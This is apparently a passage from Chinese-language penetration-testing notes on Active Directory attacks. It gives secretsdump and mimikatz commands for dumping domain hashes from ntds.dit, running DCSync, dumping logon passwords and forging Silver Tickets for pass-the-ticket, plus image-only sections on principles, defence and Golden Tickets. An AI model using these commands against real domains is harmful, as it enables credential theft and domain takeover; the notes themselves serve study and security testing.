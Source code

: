 `python secretsdump.py -ntds ntds.dit -system /system.hiv LOCAL`



或者使用mimikatz

`lsadump::dcsync /domian:lzly.lab /all /csv`





#### 获取NTDS.dit文章

https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E8%8E%B7%E5%BE%97%E5%9F%9F%E6%8E%A7%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%9A%84NTDS.dit%E6%96%87%E4%BB%B6/



## PTT

### 白银票据（Silver Ticket）



#### 默认服务

![image-20201011143914853](https://raw.githubusercontent.com/Explorersss/photo/master/20201011143914.png)





#### 原理

![image-20201011143020800](https://raw.githubusercontent.com/Explorersss/photo/master/20201011143020.png)





#### 利用

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" > pass.txt#导出票据
mimikate "kerberos::golden /domain:<域名> /sid:<域SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt" exit # 伪造票据

```





#### 防御

![image-20201011144015509](https://raw.githubusercontent.com/Explorersss/photo/master/20201011144015.png)



### 黄金票据（GoldenTickets）

![image-20201011144205810](https://raw.githubusercontent.com/Explorersss/photo/master/20201011144205.png)
